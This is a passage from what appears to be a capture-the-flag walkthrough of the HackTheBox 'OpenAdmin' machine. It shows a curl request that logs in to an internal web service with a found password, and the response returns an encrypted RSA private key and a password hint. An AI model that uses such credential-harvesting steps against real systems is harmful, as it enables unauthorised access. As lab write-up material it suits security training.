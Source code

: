 but that's because we're being flippant. this is the way:

```
jimmy@openadmin:~$ curl -v -X POST -F "login=1" -F "username=jimmy" -F "password=Revealed" -H "Host: internal.openadmin.htb" http://localhost:52846/main.php
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 52846 (#0)
> POST /main.php HTTP/1.1
> Host: internal.openadmin.htb
> User-Agent: curl/7.58.0
> Accept: */*
> Content-Length: 348
> Content-Type: multipart/form-data; boundary=------------------------1787b7076ccbdfb2
>
< HTTP/1.1 302 Found
< Date: Tue, 09 Aug 2022 00:21:24 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Set-Cookie: PHPSESSID=3penuvkj78a2an1jbkef741kv8; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Location: /index.php
< Content-Length: 1902
< Content-Type: text/html; charset=UTF-8
* HTTP error before end of send, stop sending
<
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
* Closing connection 0

```